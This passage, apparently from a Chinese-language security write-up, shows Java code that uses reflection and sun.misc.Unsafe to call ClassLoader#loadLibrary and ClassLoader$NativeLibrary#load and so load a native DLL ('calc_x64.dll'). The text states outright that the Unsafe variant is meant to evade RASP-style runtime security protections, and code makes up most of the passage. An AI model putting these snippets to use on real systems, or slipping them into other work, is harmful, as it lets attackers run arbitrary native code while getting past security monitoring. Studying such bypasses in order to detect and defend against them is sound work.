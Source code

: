 * 如果模拟ClassLoader加载就会存在两个方案
    * 模拟ClassLoader的loadLibrary和loadLibrary0两个方案。

* 如果模拟NativeLibrary就只存在load方法

**ClassLoader#loadLibrary**

loadLibrary方法是静态私有方法，无法直接调用。使用Java反射就能解决该问题代码如下：

```
    public static void loadDll(){
        try {
            Class clazz = Class.forName("java.lang.ClassLoader");
            Method method = clazz.getDeclaredMethod("loadLibrary", Class.class, String.class, boolean.class);
            method.setAccessible(true);
            method.invoke(null, clazz, "D:\\temp\\calc_x64.dll", true);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

**ClassLoader#loadLibrary0**代码类似就不贴了。

**NativeLibrary#load**

由于NativeLibrary是ClassLoader的内部静态匿名类，无法直接进行实例化，进而调用load方法。解决方案有两种方式

* 使用反射获取构造方法，修改权限进而实例化，获取load方法、调用、传入参数。

```java
String file = "D:\\temp\\calc_x64.dll";
Class a = Class.forName("java.lang.ClassLoader$NativeLibrary");
Constructor con = a.getDeclaredConstructor(new Class[]{Class.class,String.class,boolean.class});
con.setAccessible(true);
Object obj = con.newInstance(JDKClassLoaderBypass.class,file,true);
Method method = obj.getClass().getDeclaredMethod("load", String.class, boolean.class);
method.setAccessible(true);
method.invoke(obj, file, false);
```

* 使用Unsafe类的**allocateInstance**方法获取实例类，由于unsafe的特性可以无视构造方法强制进行实例化，可以完美绕过限制，这种方法可以更好绕过RASP之类的安全防护。

```java
String file = "D:\\temp\\calc_x64.dll";
Class aClass = Class.forName("sun.misc.Unsafe");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
declaredConstructor.setAccessible(true);
Unsafe unsafe = (Unsafe)declaredConstructor.newInstance();
Object obj =  unsafe.allocateInstance(a);
Method method = obj.getClass().getDeclaredMethod("load", String.class, boolean.class);
method.setAccessible(true);
method.invoke(obj, file, false);
```



----
